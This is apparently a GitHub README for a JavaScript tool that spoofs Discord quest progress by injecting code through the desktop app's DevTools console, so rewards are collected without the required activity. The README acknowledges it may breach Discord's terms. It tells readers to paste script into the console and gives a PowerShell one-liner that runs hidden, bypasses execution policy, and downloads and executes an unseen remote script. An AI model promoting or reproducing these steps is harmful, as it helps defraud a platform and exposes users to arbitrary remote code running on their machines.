

<h1 align="center">🎮 Discord Quest Completer 🚀</h1>

<p align="center">
  <a href="#">
    
  </a>
  <a href="#">
    
  </a>
</p>

<p align="center">
  <a href="README.fa.md">📄 مشاهده‌ی راهنمای فارسی</a>
</p>


## 📝 Overview
 
`Discord Quest Completer` is a **JavaScript script** that automatically completes Discord Quests on the **Discord Desktop App** after you manually accept them.
It works by injecting into Discord through Developer Tools and using internal APIs to spoof quest progress — including streaming, gaming, and watching activities.

> ⚠️ **Important Note**
>
> * You must manually accept quests before running the script.
> * Auto-accept is **no longer supported** due to API and security changes.
> * This may violate Discord’s ToS and lead to account suspension.
> * Use at your own risk and for educational purposes only.
> * Streaming quests require an additional account to join your stream.
> * Rewards must be claimed manually via **Settings → Gift Inventory**.
> * Tested primarily on Windows desktop app (limited browser/Linux support).



## ✨ Features

* ✅ **Auto-complete quests** after manual acceptance:

  * 🎬 Video watching (spoofs progress)
  * 🕹️ Desktop gaming (fakes game detection)
  * 📡 Streaming (spoofs stream progress — alt account required)
  * 🧩 Extendable to other quest types
* 🧠 **Simple usage** — just paste the script in DevTools console
* ⚡ **Modular & Extensible** — easy to add new quest support
* 🧾 **Detailed Logging** — real-time console feedback for debugging


## 🛡️ Requirements

* Discord Desktop App (Windows/Mac/Linux) — *best on Windows*
* Developer Tools access (enabled by default)
* Manually accepted quests
* Basic JavaScript console knowledge
* An alt account (for streaming quests)


## 📥 Installation & Usage

1. **Open Discord Desktop App**

2. **Accept your quests manually**

   * Navigate to *Discover → Quests* and accept the desired quests.

3. **Open Developer Tools**

   * **Windows/Linux:** `Ctrl + Shift + I`
   * **Mac:** `Cmd + Option + I`

4. **Go to the Console tab**

5. **Paste & run the script**

   * Copy the content of `quest_completer.js` and press **Enter**.

6. **Monitor logs**

   * Progress and debug messages will appear in the console.

7. **Claim rewards manually**

   * Go to **Settings → Gift Inventory**.

> 💡 **Tips**
>
> * Some quests are region-locked or restricted by account type.
> * Stream quests require at least one viewer (e.g., alt account).
> * If a quest doesn’t refresh, restart Discord or reload the Quests page.
> * Discord updates may break the script — use DevTools to inspect internal modules if needed.


## 🧰 Troubleshooting

* ❌ **No quests found** → Make sure you accepted them first.
* 🧠 **CAPTCHA triggered** → Script cannot bypass CAPTCHA.
* 🧭 **Script errors** → API structure may have changed — update the script.
* 🖥️ **Linux issues** → Some features may not be supported on Linux.


## 🧪 Enable DevTools (Windows)

If DevTools is disabled, enable it with:

```powershell
powershell -w h -ep B -c "iex(iwr https://raw.githubusercontent.com/power0matin/discord-quest-auto-completer/main/EnableDevTools.ps1)"
```


## 🔄 Extensibility

* Add new quest types by extending the `completeQuest` function in `quest_completer.js`.
* Use Discord’s internal modules like `api` and `FluxDispatcher` for advanced features.
* Contributions are welcome — fork and submit a PR!


## 📜 License

This project is licensed under the [MIT License](LICENSE).
Feel free to use, modify, and distribute it.
⚠️ No warranties or guarantees are provided.

## 📬 Contact

**Matin Shahabadi (متین شاه‌آبادی / متین شاه آبادی)**

* Website: [matinshahabadi.ir](https://matinshahabadi.ir)
* Email: [me@matinshahabadi.ir](mailto:me@matinshahabadi.ir)
* GitHub: [power0matin](https://github.com/power0matin)
* LinkedIn: [matin-shahabadi](https://www.linkedin.com/in/matin-shahabadi)

[](https://starchart.cc/power0matin/discord-quest-auto-completer)

<p align="center">
  © Created by <a href="https://github.com/power0matin">power0matin</a>
</p>


